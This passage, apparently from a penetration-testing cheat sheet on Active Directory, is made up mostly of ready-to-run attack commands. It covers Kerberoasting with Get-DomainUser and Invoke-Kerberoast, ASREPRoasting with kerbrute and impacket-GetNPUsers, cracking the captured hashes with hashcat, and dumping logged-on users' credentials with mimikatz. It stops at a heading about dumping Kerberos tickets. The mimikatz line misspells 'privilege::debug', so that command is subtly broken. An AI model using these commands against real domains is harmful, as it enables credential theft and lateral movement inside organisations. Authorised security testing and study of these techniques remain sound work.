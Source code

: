 **Find all users with an SPN set (likely service accounts)**

```sh
Get-DomainUser -SPN
```

The **Invoke-Kerberoast.ps1** script extends this attack, and can automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat, completely eliminating the need for Mimikatz in this attack.

```sh
Import-Module C:\Windows\Temp\Invoke-Kerberoast.ps1
```

{% code overflow="wrap" %}
```sh
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
{% endcode %}

```sh
hashcat -m 13100 --force -a 0 hashes.kerberoast rockyou
```

#### ASREPRoasting

ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

If don't have any domain username, let's enumerate

```sh
./kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
```

Then, use `GetNPUsers` to request ticket

```sh
impacket-GetNPUsers domain.local/svc-admin -no-pass
```

Then, crack the hash

```sh
hashcat -m 18200 -a 0 hash.kerberos passwordlist.txt
```

### Lateral movement

#### Mimikatz - Cached Credential

Dump the credentials of all logged-on users:

```sh
mimikatz.exe "priviledge::debug" "sekurlsa::logonpasswords" exit
```

Dump Kerberos TGT and service tickets:
